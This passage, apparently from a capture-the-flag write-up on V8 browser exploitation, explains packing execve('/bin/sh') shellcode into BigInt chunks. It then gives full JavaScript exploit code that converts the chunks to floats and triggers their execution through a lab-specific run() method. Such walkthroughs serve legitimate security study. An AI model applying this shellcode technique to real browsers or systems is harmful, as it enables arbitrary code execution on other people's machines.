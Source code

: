 The script uses `asm(shellcraft.sh())` to generate standard shell-spawning shellcode (i.e., `execve("/bin/sh")`) and stores it in the variable `shellcode`. This is raw machine code in byte form. To ensure that the shellcode's length is a multiple of 8 bytes (for smoother conversion into 64-bit chunks), the script appends four `NOP (0x90)` instructions as padding.

Then, it converts each byte of the shellcode into a two-digit hexadecimal string and stores these in a list. Finally, it groups these hexadecimal byte strings into chunks of `8 bytes`, reverses each group to account for `little-endian` memory layout, and prefixes each with `0x` to create valid 64-bit hexadecimal values. These values form a list of 64-bit shellcode chunks, ready to be used as `BigInt` entries in JS exploit.

The output of the script will be as follows -

![Desktop View](/assets/Browser/CTFs/V8_PwnCollege_Adventure/output_1.png){: width="1000" height="1000" }

We can now use this `BigInt` array in our exploit, ensuring each element is suffixed with `n` to indicate it's a `BigInt` literal in JavaScript. Using the conversion function we created earlier, we'll populate a float array with the corresponding float representations of our shellcode and then invoke the `run()` function to trigger the exploit. The full exploit code is given below.

```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// Shellcode for execve("/bin/sh", NULL, NULL)
var payload = [
    0x6e69622fb848686an,
    0xe7894850732f2f2fn,
    0x2434810101697268n,
    0x6a56f63101010101n,
    0x894856e601485e08n,
    0x050f583b6ad231e6n
];

var payload_float = [];

for (let i = 0; i < payload.length; i++) {
    payload_float.push(itof(payload[i]));
}

// Trigger the exploit
payload_float.run();
```
